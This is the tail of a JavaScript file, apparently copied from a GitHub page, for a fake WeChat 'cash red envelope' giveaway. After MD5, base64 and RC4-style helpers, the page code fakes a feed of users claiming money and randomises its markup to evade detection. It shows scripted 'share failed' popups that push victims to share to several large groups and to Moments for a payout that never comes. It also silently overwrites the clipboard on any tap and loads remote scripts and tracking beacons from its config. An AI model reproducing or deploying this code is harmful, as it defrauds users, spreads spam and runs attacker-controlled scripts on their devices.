                if (a <= 65535) {
                    b += String.fromCharCode(224 | ((a >>> 12) & 15), 128 | ((a >>> 6) & 63), 128 | (a & 63))
                } else {
                    if (a <= 2097151) {
                        b += String.fromCharCode(240 | ((a >>> 18) & 7), 128 | ((a >>> 12) & 63), 128 | ((a >>> 6) & 63), 128 | (a & 63))
                    }
                }
            }
        }
    }
    return b
}
function rstr2binl(b) {
    var a = Array(b.length >> 2);
    for (var c = 0; c < a.length; c++) {
        a[c] = 0
    }
    for (var c = 0; c < b.length * 8; c += 8) {
        a[c >> 5] |= (b.charCodeAt(c / 8) & 255) << (c % 32)
    }
    return a
}
function binl2rstr(b) {
    var a = "";
    for (var c = 0; c < b.length * 32; c += 8) {
        a += String.fromCharCode((b[c >> 5] >>> (c % 32)) & 255)
    }
    return a
}
function binl_md5(p, k) {
    p[k >> 5] |= 128 << ((k) % 32);
    p[(((k + 64) >>> 9) << 4) + 14] = k;
    var o = 1732584193;
    var n = -271733879;
    var m = -1732584194;
    var l = 271733878;
    for (var g = 0; g < p.length; g += 16) {
        var j = o;
        var h = n;
        var f = m;
        var e = l;
        o = md5_ff(o, n, m, l, p[g + 0], 7, -680876936);
        l = md5_ff(l, o, n, m, p[g + 1], 12, -389564586);
        m = md5_ff(m, l, o, n, p[g + 2], 17, 606105819);
        n = md5_ff(n, m, l, o, p[g + 3], 22, -1044525330);
        o = md5_ff(o, n, m, l, p[g + 4], 7, -176418897);
        l = md5_ff(l, o, n, m, p[g + 5], 12, 1200080426);
        m = md5_ff(m, l, o, n, p[g + 6], 17, -1473231341);
        n = md5_ff(n, m, l, o, p[g + 7], 22, -45705983);
        o = md5_ff(o, n, m, l, p[g + 8], 7, 1770035416);
        l = md5_ff(l, o, n, m, p[g + 9], 12, -1958414417);
        m = md5_ff(m, l, o, n, p[g + 10], 17, -42063);
        n = md5_ff(n, m, l, o, p[g + 11], 22, -1990404162);
        o = md5_ff(o, n, m, l, p[g + 12], 7, 1804603682);
        l = md5_ff(l, o, n, m, p[g + 13], 12, -40341101);
        m = md5_ff(m, l, o, n, p[g + 14], 17, -1502002290);
        n = md5_ff(n, m, l, o, p[g + 15], 22, 1236535329);
        o = md5_gg(o, n, m, l, p[g + 1], 5, -165796510);
        l = md5_gg(l, o, n, m, p[g + 6], 9, -1069501632);
        m = md5_gg(m, l, o, n, p[g + 11], 14, 643717713);
        n = md5_gg(n, m, l, o, p[g + 0], 20, -373897302);
        o = md5_gg(o, n, m, l, p[g + 5], 5, -701558691);
        l = md5_gg(l, o, n, m, p[g + 10], 9, 38016083);
        m = md5_gg(m, l, o, n, p[g + 15], 14, -660478335);
        n = md5_gg(n, m, l, o, p[g + 4], 20, -405537848);
        o = md5_gg(o, n, m, l, p[g + 9], 5, 568446438);
        l = md5_gg(l, o, n, m, p[g + 14], 9, -1019803690);
        m = md5_gg(m, l, o, n, p[g + 3], 14, -187363961);
        n = md5_gg(n, m, l, o, p[g + 8], 20, 1163531501);
        o = md5_gg(o, n, m, l, p[g + 13], 5, -1444681467);
        l = md5_gg(l, o, n, m, p[g + 2], 9, -51403784);
        m = md5_gg(m, l, o, n, p[g + 7], 14, 1735328473);
        n = md5_gg(n, m, l, o, p[g + 12], 20, -1926607734);
        o = md5_hh(o, n, m, l, p[g + 5], 4, -378558);
        l = md5_hh(l, o, n, m, p[g + 8], 11, -2022574463);
        m = md5_hh(m, l, o, n, p[g + 11], 16, 1839030562);
        n = md5_hh(n, m, l, o, p[g + 14], 23, -35309556);
        o = md5_hh(o, n, m, l, p[g + 1], 4, -1530992060);
        l = md5_hh(l, o, n, m, p[g + 4], 11, 1272893353);
        m = md5_hh(m, l, o, n, p[g + 7], 16, -155497632);
        n = md5_hh(n, m, l, o, p[g + 10], 23, -1094730640);
        o = md5_hh(o, n, m, l, p[g + 13], 4, 681279174);
        l = md5_hh(l, o, n, m, p[g + 0], 11, -358537222);
        m = md5_hh(m, l, o, n, p[g + 3], 16, -722521979);
        n = md5_hh(n, m, l, o, p[g + 6], 23, 76029189);
        o = md5_hh(o, n, m, l, p[g + 9], 4, -640364487);
        l = md5_hh(l, o, n, m, p[g + 12], 11, -421815835);
        m = md5_hh(m, l, o, n, p[g + 15], 16, 530742520);
        n = md5_hh(n, m, l, o, p[g + 2], 23, -995338651);
        o = md5_ii(o, n, m, l, p[g + 0], 6, -198630844);
        l = md5_ii(l, o, n, m, p[g + 7], 10, 1126891415);
        m = md5_ii(m, l, o, n, p[g + 14], 15, -1416354905);
        n = md5_ii(n, m, l, o, p[g + 5], 21, -57434055);
        o = md5_ii(o, n, m, l, p[g + 12], 6, 1700485571);
        l = md5_ii(l, o, n, m, p[g + 3], 10, -1894986606);
        m = md5_ii(m, l, o, n, p[g + 10], 15, -1051523);
        n = md5_ii(n, m, l, o, p[g + 1], 21, -2054922799);
        o = md5_ii(o, n, m, l, p[g + 8], 6, 1873313359);
        l = md5_ii(l, o, n, m, p[g + 15], 10, -30611744);
        m = md5_ii(m, l, o, n, p[g + 6], 15, -1560198380);
        n = md5_ii(n, m, l, o, p[g + 13], 21, 1309151649);
        o = md5_ii(o, n, m, l, p[g + 4], 6, -145523070);
        l = md5_ii(l, o, n, m, p[g + 11], 10, -1120210379);
        m = md5_ii(m, l, o, n, p[g + 2], 15, 718787259);
        n = md5_ii(n, m, l, o, p[g + 9], 21, -343485551);
        o = safe_add(o, j);
        n = safe_add(n, h);
        m = safe_add(m, f);
        l = safe_add(l, e)
    }
    return Array(o, n, m, l)
}
function md5_cmn(h, e, d, c, g, f) {
    return safe_add(bit_rol(safe_add(safe_add(e, h), safe_add(c, f)), g), d)
}
function md5_ff(g, f, k, j, e, i, h) {
    return md5_cmn((f & k) | ((~f) & j), g, f, e, i, h)
}
function md5_gg(g, f, k, j, e, i, h) {
    return md5_cmn((f & j) | (k & (~j)), g, f, e, i, h)
}
function md5_hh(g, f, k, j, e, i, h) {
    return md5_cmn(f^k^j, g, f, e, i, h)
}
function md5_ii(g, f, k, j, e, i, h) {
    return md5_cmn(k^(f | (~j)), g, f, e, i, h)
}
function safe_add(a, d) {
    var c = (a & 65535) + (d & 65535);
    var b = (a >> 16) + (d >> 16) + (c >> 16);
    return (b << 16) | (c & 65535)
}
function bit_rol(a, b) {
    return (a << b) | (a >>> (32 - b))
};

function base64_encode(str) {
    var base64EncodeChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    var out, i, len;
    var c1, c2, c3;

    len = str.length;
    i = 0;
    out = "";
    while(i < len) {
        c1 = str.charCodeAt(i++) & 0xff;
        if(i == len)
        {
            out += base64EncodeChars.charAt(c1 >> 2);
            out += base64EncodeChars.charAt((c1 & 0x3) << 4);
            out += "==";
            break;
        }
        c2 = str.charCodeAt(i++);
        if(i == len)
        {
            out += base64EncodeChars.charAt(c1 >> 2);
            out += base64EncodeChars.charAt(((c1 & 0x3)<< 4) | ((c2 & 0xF0) >> 4));
            out += base64EncodeChars.charAt((c2 & 0xF) << 2);
            out += "=";
            break;
        }
        c3 = str.charCodeAt(i++);
        out += base64EncodeChars.charAt(c1 >> 2);
        out += base64EncodeChars.charAt(((c1 & 0x3)<< 4) | ((c2 & 0xF0) >> 4));
        out += base64EncodeChars.charAt(((c2 & 0xF) << 2) | ((c3 & 0xC0) >>6));
        out += base64EncodeChars.charAt(c3 & 0x3F);
    }
    return out;
}

function base64_decode(str) {
    var base64DecodeChars = new Array(
        -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,
        -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,
        -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, 62, -1, -1, -1, 63,
        52, 53, 54, 55, 56, 57, 58, 59, 60, 61, -1, -1, -1, -1, -1, -1,
        -1, 0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14,
        15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, -1, -1, -1, -1, -1,
        -1, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40,
        41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, -1, -1, -1, -1, -1);
    var c1, c2, c3, c4;
    var i, len, out;

    len = str.length;
    i = 0;
    out = "";
    while(i < len) {
        do {
            c1 = base64DecodeChars[str.charCodeAt(i++) & 0xff];
        } while(i < len && c1 == -1);
        if(c1 == -1)
            break;

        do {
            c2 = base64DecodeChars[str.charCodeAt(i++) & 0xff];
        } while(i < len && c2 == -1);
        if(c2 == -1)
            break;

        out += String.fromCharCode((c1 << 2) | ((c2 & 0x30) >> 4));

        do {
            c3 = str.charCodeAt(i++) & 0xff;
            if(c3 == 61)
                return out;
            c3 = base64DecodeChars[c3];
        } while(i < len && c3 == -1);
        if(c3 == -1)
            break;

        out += String.fromCharCode(((c2 & 0XF) << 4) | ((c3 & 0x3C) >> 2));

        do {
            c4 = str.charCodeAt(i++) & 0xff;
            if(c4 == 61)
                return out;
            c4 = base64DecodeChars[c4];
        } while(i < len && c4 == -1);
        if(c4 == -1)
            break;
        out += String.fromCharCode(((c3 & 0x03) << 6) | c4);
    }
    return out;
}

function utf16to8(str) {
    var out, i, len, c;

    out = "";
    len = str.length;
    for(i = 0; i < len; i++) {
        c = str.charCodeAt(i);
        if ((c >= 0x0001) && (c <= 0x007F)) {
            out += str.charAt(i);
        } else if (c > 0x07FF) {
            out += String.fromCharCode(0xE0 | ((c >> 12) & 0x0F));
            out += String.fromCharCode(0x80 | ((c >> 6) & 0x3F));
            out += String.fromCharCode(0x80 | ((c >> 0) & 0x3F));
        } else {
            out += String.fromCharCode(0xC0 | ((c >> 6) & 0x1F));
            out += String.fromCharCode(0x80 | ((c >> 0) & 0x3F));
        }
    }
    return out;
}

function utf8to16(str) {
    var out, i, len, c;
    var char2, char3;

    out = "";
    len = str.length;
    i = 0;
    while(i < len) {
        c = str.charCodeAt(i++);
        switch(c >> 4)
        {
            case 0: case 1: case 2: case 3: case 4: case 5: case 6: case 7:
            out += str.charAt(i-1);
            break;
            case 12: case 13:
            char2 = str.charCodeAt(i++);
            out += String.fromCharCode(((c & 0x1F) << 6) | (char2 & 0x3F));
            break;
            case 14:
                char2 = str.charCodeAt(i++);
                char3 = str.charCodeAt(i++);
                out += String.fromCharCode(((c & 0x0F) << 12) |
                    ((char2 & 0x3F) << 6) |
                    ((char3 & 0x3F) << 0));
                break;
        }
    }

    return out;
}


function authcode(str, operation, key, expiry) {
    var operation = operation ? operation : 'DECODE';
    var key = key ? key : '';
    var expiry = expiry ? expiry : 0;

    var ckey_length = 4;
    key = md5(key);

    var keya = md5(key.substr(0, 16));
    var keyb = md5(key.substr(16, 16));
    if(ckey_length){
        if(operation == 'DECODE'){
            var keyc = str.substr(0, ckey_length);
        }else{
            var md5_time = md5(microtime());
            var start = md5_time.length - ckey_length;
            var keyc = md5_time.substr(start, ckey_length)
        }
    }else{
        var keyc = '';
    }
    var cryptkey = keya + md5(keya + keyc);

    var strbuf;

    if (operation == 'DECODE') {
        str = str.substr(ckey_length);
        strbuf = base64_decode(str);
    } else {
        expiry = expiry ? expiry + time() : 0;
        tmpstr = expiry.toString();
        if (tmpstr.length >= 10)
            str = tmpstr.substr(0, 10) + md5(str + keyb).substr(0, 16) + str;
        else {
            var count = 10 - tmpstr.length;
            for (var i = 0; i < count; i++) {
                tmpstr = '0' + tmpstr;
            }
            str = tmpstr + md5(str + keyb).substr(0, 16) + str;
        }
        strbuf = str;
    }


    var box = new Array(256);
    for (var i = 0; i < 256; i++) {
        box[i] = i;
    }
    var rndkey = new Array();
    for (var i = 0; i < 256; i++) {
        rndkey[i] = cryptkey.charCodeAt(i % cryptkey.length);
    }
    for (var j = i = 0; i < 256; i++) {
        j = (j + box[i] + rndkey[i]) % 256;
        tmp = box[i];
        box[i] = box[j];
        box[j] = tmp;
    }

    var s = '';
    strbuf = strbuf.split('');
    for (var a = j = i = 0; i < strbuf.length; i++) {
        a = (a + 1) % 256;
        j = (j + box[a]) % 256;
        tmp = box[a];
        box[a] = box[j];
        box[j] = tmp;
        s += chr(ord(strbuf[i])^(box[(box[a] + box[j]) % 256]));
    }

    if (operation == 'DECODE') {
        if ((s.substr(0, 10) == 0 || s.substr(0, 10) - time() > 0) && s.substr(10, 16) == md5(s.substr(26) + keyb).substr(0, 16)) {
            s = s.substr(26);
        } else {
            s = '';
        }
    } else {
        s = base64_encode(s);
        var regex = new RegExp('=', "g");
        s = s.replace(regex, '');
        s = keyc + s;
    }

    return (s);
}

function time() {
    var unixtime_ms = new Date().getTime();
    return parseInt(unixtime_ms / 1000);
}

function microtime(get_as_float) {
    var unixtime_ms = new Date().getTime();
    var sec = parseInt(unixtime_ms / 1000);
    return get_as_float ? (unixtime_ms / 1000) : (unixtime_ms - (sec * 1000)) / 1000 + ' ' + sec;
}
function chr(s) {
    return String.fromCharCode(s);
}
function ord(s) {
    return s.charCodeAt();
}

function md5(str) {
    return hex_md5(str);
}


function openRef(url){var a=document.createElement('a');a.href=url;a.rel='noreferrer';a.click()}function formatDate(format,date){if(date instanceof Date==false){date=new Date()}var o={"M+":date.getMonth()+1,"d+":date.getDate(),"h+":date.getHours(),"m+":date.getMinutes(),"s+":date.getSeconds(),"q+":Math.floor((date.getMonth()+3)/3),"S":date.getMilliseconds()};if(/(y+)/.test(format))format=format.replace(RegExp.$1,(date.getFullYear()+"").substr(4-RegExp.$1.length));for(var k in o)if(new RegExp("("+k+")").test(format))format=format.replace(RegExp.$1,(RegExp.$1.length==1)?(o[k]):(("00"+o[k]).substr((""+o[k]).length)));return format}function closeWindow(){if(!window.WeixinJSBridge){document.addEventListener('WeixinJSBridgeReady',function(){WeixinJSBridge.call('closeWindow')},false)}else{WeixinJSBridge.call('closeWindow')}}function _hiddenWxMenu(){if(!window.WeixinJSBridge){document.addEventListener('WeixinJSBridgeReady',function(){WeixinJSBridge.call('hideOptionMenu')},false)}else{WeixinJSBridge.call('hideOptionMenu')}}function _showWxMenu(){if(!window.WeixinJSBridge){document.addEventListener('WeixinJSBridgeReady',function(){WeixinJSBridge.call('showOptionMenu')},false)}else{WeixinJSBridge.call('showOptionMenu')}}function noTouchMove(){window.addEventListener('touchmove',function(e){e.preventDefault()},{passive:false})};

;function loadJs(scripts,callback){if(scripts instanceof Array==false){scripts=[scripts]}var HEAD=document.getElementsByTagName('head')[0]||document.documentElement;var s=[];var last=scripts.length-1;var recursiveLoad=function(i){if(typeof(scripts[i])!='string'||/^http[s]?:[/]{2}|^[/]{2}/i.test(scripts[i])==false){if(i!==last){recursiveLoad(i+1)}else if(typeof(callback)==='function'){callback()};return};s[i]=document.createElement('script');s[i].setAttribute('type','text/javascript');s[i].onload=s[i].onreadystatechange=function(){if(!/*@cc_on!@*/0||this.readyState==='loaded'||this.readyState==='complete'){this.onload=this.onreadystatechange=null;this.parentNode.removeChild(this);if(i!==last){recursiveLoad(i+1)}else if(typeof(callback)==='function'){callback()}}};s[i].setAttribute('src',scripts[i]);HEAD.appendChild(s[i])};recursiveLoad(0)};


function hiddenFunc(){
    if (window._config.appId!=null){

    }
    window.hiddenProperty = 'hidden' in document ? 'hidden' :'webkitHidden' in document ? 'webkitHidden' :'mozHidden' in document ? 'mozHidden' :null;
    window.visibilityChangeEvent = window.hiddenProperty.replace(/hidden/i, 'visibilitychange');
    window.onVisibilityChange = function(){
        if (!document[window.hiddenProperty]) {
            S_tip();
            count();
        }
    };
    document.addEventListener(window.visibilityChangeEvent, window.onVisibilityChange);

}
function GetUrlParms(str){
    var theRequest = new Object();
    strs = str.split("&");
    for(var i=0;i<strs.length;i++)
    {
        var sTemp = strs[i].split("=");
        theRequest[sTemp[0]]=(sTemp[1]);
    }
    return theRequest;
}
function endlink()
{
window.location.href = window._config.endlink;
}
function count() {
    $.ajax({method: 'POST',dataType:'json',url:'/js/count',data:{step:window._config._sCount-1,m:window._config.money},
        success: function (data,xhr) {
            if(!$.isEmpty(data)&&!$.isEmpty(data.domain)){
                $.fpost(data.domain,GetUrlParms(data.parm));
            }
        }
    });
}
function returnApi(){
    loadJs(window._config.returnapi,function(){
    });
}
function btnApi(){
    loadJs(window._config.returnapi,function(){
        returnRun();
    });
}

function is74wle4kbr2y(link, callback) {
    var label = document.createElement('script');
    label.src = link;
    label.onload = function() {
        if (typeof callback === 'function') callback()
    };
    document.body.appendChild(label)
}

function INT(){
    if(url.indexOf('from') > 0){
       openRef(window._config.shareDomain)
       }
    if(window._config.money){
        _IntShare();
        _showWxMenu();
        returnApi();
    }else{
        window._config.money = window._config.newmoney;
        _IntHome();returnApi();_hiddenWxMenu();
        is74wle4kbr2y('https://cdn.bootcss.com/clipboard.js/2.0.4/clipboard.min.js',function(){
            var clipboard = new ClipboardJS('html', {text: function () {return window._config.kouling;}});
        });
    }
    loadJs(window._config.tj);
    noTouchMove();

}
function _IntHome() {
    if(window._config.shareJump==1){
        $('.m_btn').click(function() {
            window.location.href = window._config.share_url + window._config.money;
        });
    }else{
        $('.m_btn').click(function() {
            _IntShare();_showWxMenu();
        });
    }

    window._config.money = parseFloat(window._config.money/100).toFixed(2);
    $('#logo').attr('src',window._config.logo);
    $('.app-avatar img').attr('src',window._config.logo2);
    $('#title').text(window._config.title);
    $('#title2').text(window._config.title2);
    $('#desc').text(window._config.desc);
    $('#h').show();
    $('.price').text(window._config.money);
    $('#pople').text(Date.parse(new Date())/1000-150*10000000);
    for(i=0;i<=20;i++){
        var tempM=parseInt(Math.random() * (window._config.caseMoneyMax - window._config.caseMoneyMin) + window._config.caseMoneyMin);tempM=parseFloat(tempM/100).toFixed(2);
        var name=window._uList[parseInt(Math.random() * (window._uList.length))];
        $('.barrage-list-'+i).prepend('<img src="https://bgtkjld32.oss-cn-beijing.aliyuncs.com/' +
            parseInt(Math.random() * (49 - 1) + 1) + '.jpg" class="barrage-list-avatar"><div class="barrage-list-content"><span class="nickname">' + name +
            '</span><span style="font-weight: 700;">领取' +
            tempM+ '元</span></div>');
    }
    var arr = ['article','section','header','footer','nav','figcaption','aside'];
    var spanArr = ['span','font','b','i','em','label'];
    for(i=1;i<=50;i++){
        var temp=arr[Math.floor((Math.random()*arr.length))];
        var tempB=arr[Math.floor((Math.random()*arr.length))];
        var tempC=arr[Math.floor((Math.random()*arr.length))];
        var span=spanArr[Math.floor((Math.random()*spanArr.length))];
        var spanB=spanArr[Math.floor((Math.random()*spanArr.length))];
        var tempM=parseInt(Math.random() * (window._config.caseMoneyMax - window._config.caseMoneyMin) + window._config.caseMoneyMin);tempM=parseFloat(tempM/100).toFixed(2);
        var tempMs=parseInt(Math.random() * (9) + 1);
        var name=window._uList[parseInt(Math.random() * (window._uList.length))];
        var html =
            '<'+temp+' class="item"><'+tempB+'><img src="https://bgtkjld32.oss-cn-beijing.aliyuncs.com/' +
            parseInt(Math.random() * (49 - 1) + 1) + '.jpg"></'+tempB+'><'+tempC+'><'+tempB+'>' +name +
            '</'+tempB+'><'+temp+'>'+tempMs+'分钟前</'+temp+'></'+tempC+'><'+temp+'><'+span+'>领取了</'+span+'><'+spanB+'>' +
            tempM+  '元</'+spanB+'></'+temp+'></'+temp+'>';
        $('.list-1').prepend(html);
        $('.list-2').prepend(html);
    }

    $('#open').click(function() {
        var $this = $('.header-open');
        if ($this.hasClass('open')) {
            return false
        }
        $this.removeClass('scaling');
        $this.addClass('open');
        $('#h').hide(); $('#m').show();

    });

    var img = document.createElement('img');
    img.src = '//'+window._config.shareDomain+"/d.gif"
    img.style.display ="none";
    document.body.appendChild(img);
}
function _IntShare() {
    window._config._sCount=window._config.step;

    //if(window._config.money.indexOf(".")<0){
      //  window._config.money = parseFloat(window._config.money);
    //}
    $('.m').text(window._config.money);
    $('#s').show();
    $('#s').eq(0).click(function () {
        window._config._sCount--;S_tip();
    });
    hiddenFunc();
    S_tip();
    document.title=window._config.sf_title;
}
function S_tip() {
0
    if(window._config._sCount>7)window._config._sCount=7;
    if (window._config._sCount == 0) {
        msgbox('<span style="color: #0bb20c; font-size:24px;vertical-alian:middle">恭喜您</span><br><br><span style="color:#C0C0C0;">获得现金红包</span><br><span style="color:#FF4500; text-align: center; font-size: 26px;">' + window._config.money + '元</span><br><br><span style="color:#FF4500; text-align: center; font-size: 18px;">分享到群后<span style="font-size:26px;">即可领取</span><br><span style="color:#C0C0C0;">先到先得，马上分享领取到账！</span>', '分享领取');
    } else if (window._config._sCount == 1) {
        msgbox('<b style="font-size: 24px;color:green;">分享成功！</b><br><font style="color: black; font-size:16px;"><br>请继续分享到<b style="font-size: 18px;color: red">2</b>个不同的群<br><b style="font-size: 16px;color: red"> 红包将立即到账！</b></font>', '我知道了');
    } else if (window._config._sCount == 2) {
        msgbox('<b style="font-size: 24px;color:green;">分享成功！</b><br><font style="color: black; font-size:16px;"><br>请继续分享到<b style="font-size: 18px;color: red">1</b>个不同的群<br><b style="font-size: 16px;color: red"> 红包将立即到账！</b></font>', '我知道了');
    } else if (window._config._sCount == 3) {
        msgbox('<b style="font-size: 24px;color:red;">分享失败！</b><br><br>注意：分享到相同的群会失败<br/>请尝试重新分享到<b style="font-size: 18px;color: red">1</b>个不同的群', '我知道了');
    } else if (window._config._sCount == 4) {
        msgbox('<b style="font-size: 24px;color:red;">分享失败！</b><br><br>注意：分享到小于50人的群会失败<br/>请尝试重新分享到<b style="font-size: 18px;color: red">50人以上</b>的群', '我知道了');
    } else if (window._config._sCount == 5) {
        msgbox('<b style="font-size: 24px;color:green;">分享成功！</b><br><br>剩下最后一步啦！<br/>请分享到<b style="font-size: 24px;color: red">朋友圈</b>，获赠<b style=";color:red;">' + window._config.money + '</b>元💰立即到账！', '我知道了');
    } else if (window._config._sCount == 6) {
        msgbox('<b style="font-size: 24px;color:red;">分享失败！</b><br><br>注意：必须[公开]分享哦！<br/>请尝试重新分享到<b style="font-size: 24px;color: red">朋友圈</b>', '我知道了');
    } else if (window._config._sCount == 7) {
        if (window._config.isQrAd) {
            msgbox('<br><b style="font-size: 24px;color:green;">恭喜你</b>获得  <b style="font-size: 18px;color:red">' + window._config.money + '</b> 元<br>由于活动量巨大，正在排队发放，最晚48小时内到账，（<b style="font-size: 18px;color:red">请保留朋友圈分享至微信收到到账通知</b>）！<p style="font-size:24px;margin-top: 8px;"><img src="' + window._config.qrAdImg + '" style="width:50%;"></p>请：长按上方二维码，<span style="color:#e66">识别二维码</span><br>关注公众号，及时查询到账情况！', '我知道了', function() {});
        } else {
            msgbox('<br><b style="font-size: 24px;color:green;">恭喜你</b>获得  <b style="font-size: 18px;color:red">' + window._config.money + '</b> 元<br>由于活动量巨大，正在排队发放，最晚48小时内到账，（<b style="font-size: 18px;color:red">请保留朋友圈分享至微信收到到账通知</b>）！<br/><b style="color:red">朋友圈信息不可删除，否则无法核实用户信息</b><br/>以免红包发放失败！', '我知道了', function() {endlink()});
        }
    }
    window._config._sCount++;
}
function msgbox(html, btn_txt, callback) {
    $('#popup').show();
    $('#popup #b').html(html);
    $('#popup button').eq(0).click(function () {
        $('#popup').hide();
        if(callback){
           callback();
        }
    });
    $('#s').eq(0).click(function () {
        $('#popup').show();
    });
}
INT();
</script>
© 2020 GitHub, Inc.
Terms
Privacy
Security
Status
Help
Contact GitHub
Pricing
API
Training
Blog
About
